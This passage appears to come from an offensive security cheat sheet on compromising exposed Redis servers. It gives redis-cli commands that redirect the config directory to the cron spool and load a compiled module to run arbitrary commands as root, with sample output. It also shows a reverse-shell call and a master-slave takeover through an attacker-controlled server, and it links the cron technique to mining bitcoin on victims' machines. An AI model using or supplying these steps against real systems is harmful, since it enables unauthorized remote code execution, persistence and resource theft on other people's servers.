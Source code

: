 The last example for Ubuntu, for Centos, the above command should be:

```bash
redis-cli -h 10.85.0.52 config set dir /var/spool/cron/
```

This method can also be used to earn bitcoin ：[yam](https://www.v2ex.com/t/286981#reply14)

## Load Redis Module

Following the instructions from link below you can compile a redis module to execute arbitrary commands.

[GitHub - n0b0dyCN/RedisModules-ExecuteCommand: Tools, utilities and scripts to help you write redis modules!](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand)

Then you need some way to upload the compiled module
Load the uploaded module at runtime with `MODULE LOAD /path/to/mymodule.so`
List loaded modules to check it was correctly loaded: `MODULE LIST`
Execute commands:

```bash
127.0.0.1:6379> system.exec "id"
"uid=0(root) gid=0(root) groups=0(root)\n"
127.0.0.1:6379> system.exec "whoami"
"root\n"
127.0.0.1:6379> system.rev 127.0.0.1 9999
Unload the module whenever you want: MODULE UNLOAD mymodule
```

## LUA sandbox bypass

[Here](https://www.agarri.fr/blog/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html) you can see that Redis uses the command EVAL to execute Lua code sandboxed. In the linked post you can see how to abuse it using the dotfile function, but [apparently](https://stackoverflow.com/questions/43502696/redis-cli-code-execution-using-eval) this isn't no longer possible.  Anyway, if you can bypass the Lua sandbox you could execute arbitrary commas on the system. Also, from the same post you can see some options to cause DoS.

## Master-Slave Module

The master redis all operations are automatically synchronized to the slave redis, which means that we can regard the vulnerability redis as a slave redis, connected to the master redis which our own controlled, then we can enter the command to our own redis.

```bash
master redis : 10.85.0.51 (Hacker's Server)
slave  redis : 10.85.0.52 (Target Vulnerability Server)

#A master-slave connection will be established from the slave redis and the master redis:
redis-cli -h 10.85.0.52 -p 6379
slaveof 10.85.0.51 6379

#Then you can login to the master redis to control the slave redis:
redis-cli -h 10.85.0.51 -p 6379
set mykey hello
set mykey2 helloworld
```
